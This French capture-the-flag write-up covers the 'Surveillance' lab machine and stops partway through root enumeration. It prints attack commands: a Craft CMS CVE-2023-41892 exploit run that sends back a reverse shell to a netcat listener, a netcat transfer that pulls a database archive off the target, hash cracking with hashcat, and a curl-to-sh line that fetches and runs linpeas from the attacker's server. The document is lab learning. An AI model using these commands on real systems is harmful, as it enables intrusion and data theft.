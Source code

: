 # Surveillance

## Process

On est lancer sur une adresse ip sur la quelle on a accés a un site web.
Aprés un `dirsearch` sur le domaine de la machines. On tombe sur un directory qui pourra nous etre utils: `/admin/login`

Une fois rajouter l'extension au domaine on tombe sur une page login sur la quelle on peut lire `craft CMS`.

Partons à la recherche d'une CVE de en rapport avec ce CMS.
On tombe sur la `CVE-2023-41892`.<br/>

En y allant un peu a l'aveugle on part à la recherche d'un exploit de cette cve et on tombe sur un git hub qui nous donne un script a executer je creer un fichier .py et entre le script a l'intérieur.

```bash
python3 cve-2023-41892.py http://surveillance.htb [mon-ip] 443
```

Tout en lançant avant cela un ncat:

```bash
nc -lvnp 443
```

En lançant le script celui ci me renvoi un shell sur le ncat.

Je lance directement:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ce qui me donnent un shelle stable.

Aprés de multiple recherche des piste bien différente les une des autre des hash impossible a crack... je tombe sur un fichier zip que je décide de télécharger.

Je lance donc une commande nc pour recevoir un fichier avec un fichier de destination.

```bash
nc -lvnp 443 > db.zip
```

Puis je lance le téléchargement du fichier sur la machine distante prenans la destination puis le fichier a télécharger.

```bash
nc -w 3 [mon-ip] 443 < surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Maintenant que je l'ai recu je l'unzip et je vais analyser ce fichier.
Je trouve dans le fichier un hash dans la table `users`.
Je le copie et créer un fichier `hash.txt`.
Le type du hash aprés un rapide passage sur `hash analyzer`: est `SHA2-256` je lance donc un hascat:

```bash
hashcat -m1400 hash.txt /usr/share/wordlists/rockyou.txt
```

Cracked password: `***************`

On est donc connecter a la machines via le ssh!! Maintenant! 

## Root Flag

Bizarrement facile pour le user nous allons voir comment cela ce passe pour le root.

Donc pour commencer je décide de télécharger `linpeas` sur la machine afin de voir si celui ci trouve un fichier sur le quelle nous pourrions passer.

Je télécharge donc linpeas sur ma machines, [source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Une fois télécharger je lance un serveur.

```bash
python3 -m http.server 80
```

En ouvrant ce serveur je peut lancer cette commande qui pourras donc en précisant l'ip et le chemin a suivre allé télécharger linpeas sur la machines distante.

```bash
curl [mon-ip]/home/user/Documents/outils/peass/linpeass.sh | sh
```

Maintenant qu'il est présent sur la machines je le lance.
On ne sait jamais avant de ce lancer dans une recherche interminable.🤞

Beaucoup de chose a analyser apparaissent c'est parti pour la recherche.<br/>

Note: Zoneminder est un logiciel de video surveillance, opensource.<br/>
voyons si l'on peut faire quelque chose avec ça.